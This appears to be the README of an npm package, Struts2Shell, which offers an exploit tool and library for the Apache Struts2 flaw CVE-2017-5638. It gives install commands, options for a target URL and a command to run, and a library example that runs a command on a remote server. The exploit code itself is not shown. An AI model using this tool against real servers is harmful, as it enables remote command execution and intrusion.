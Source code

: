 # Struts2Shell

An exploit (and library) for CVE-2017-5638 - Apache Struts2 S2-045 bug.

## Installation

```sh
$ npm install -g struts2shell
```

## Installation as Library

```sh
$ npm install struts2shell
```

## Command Line Options
    -h, --help           output usage information
    -V, --version        output the version number
    -u, --url [target]   URL to Attack
    -c, --cmd [command]  Command to Execute

## Usage as Library

```javascript
var Struts2Shell = require('struts2shell');
Struts2Shell({
	URL: 'http://example.com/some.action',
	CMD: 'dir'
}, function(err, response,body) {
    if(err) throw err;
    console.log(body)
})
```

## Screenshot

![Struts2Shell](https://raw.githubusercontent.com/jpacora/Struts2Shell/master/screenshot.png)


License
----

MIT


**Free Software, Hell Yeah!**